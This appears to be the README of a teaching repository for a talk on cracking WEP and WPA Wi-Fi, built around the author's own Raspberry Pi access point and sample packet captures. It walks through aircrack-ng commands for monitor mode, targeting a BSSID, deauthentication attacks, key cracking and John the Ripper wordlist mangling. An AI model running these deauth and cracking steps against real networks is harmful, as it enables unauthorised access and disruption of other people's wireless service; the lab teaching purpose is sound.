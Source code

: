 HackerietWifi
=============

Recently I gave a very simple introduction to breaking wireless networks. My aim was
to give people an idea how it's done. I focused on WEP and WPA networks as they are still 
the most common networks found out there. 

For the wireless access point, I used a Raspberry Pi with a Edimax USB dongle on the hardware
side. For software, I used hostapd to get a simple wireless network up and running. The configuration
files for this can be found in the Configs directory. I also used a DHCP server on the Pi to 
ensure that clients connecting to my wireless network were given IP addresses. I could have also
provided network connectivity, but alas I was controlling the Pi over the ethernet connection. 

The packet captures for the WEP and WPA networks are available for cracking in the Pcaps directory.
The initial wordlist for the WPA network is also available but will not work properly with the 
tools without a little manipulation. 

Please note that the commands listed here are just a starting point. There is definitely a quicker
and more efficient way to do this. So check the command options and do a little research :)


Tools used: 
-----------


Aircrack-ng Suite : http://www.aircrack-ng.org

 - airmon-ng
 - airodump-ng
 - aircrack-ng
 - aireplay-ng


John the Ripper: http://www.openwall.com/john/


Snooping on wireless networks
-----------------------------

1. Enable a monitoring interface on your wireless NIC
 
 ```
 airmon-ng start wlan1
```

2. Check that your card support packet injection

 aireplay-ng --test mon0 

3. Check what wireless networks are out there (find our targets)

 airodump-ng mon0


WEP Networks
------------

Following from the steps above...

4. Home in on our target network and start saving packets for cracking later

 airodump-ng --bssid 00:1F:1F:A8:9D:34 --channel 1 mon0 -w packetcapture.pcap

5. Run a "deauth" attack to knock client off the target network
 
 aireplay-ng --deauth 10 -a 00:1F:1F:A8:9D:34 --channel 1 mon0 


You can either continue to do this and probably get noticed, or shift your attack
to something a little sneakier. Either way you will want to get as much data as you 
can in order to crack the password.

6. Crack that password
 
 aircrack-ng -a 1 packetcapture.pcap


Wordlists
---------

Our initial wordlist (wordlist.txt) is probably not quite up to scratch, but with a little
manipulation from John, it may be more useful. 

 john --wordlist=wordlist.txt --rules --stdout > new_superleet_wordlist.txt


WPA Networks 
------------

Pretty much the same as above, except you will just need to deauth a client in order to 
capture that four way handshake that happens with the WPA authentication process.
If you look in the top right corner of the airodump-ng window, you should see that you've
successfully captured the handshake.

After that it's up to having either a good wordlist or decent rainbow tables.
Without those, you will be in trouble...


 aircrack-ng -a 2 -w new_superleet_wordlist.txt wpa_packetcapture.pcap


That's all there is to it really. 

If there are any questions, comments or ideas on this...please get in touch.


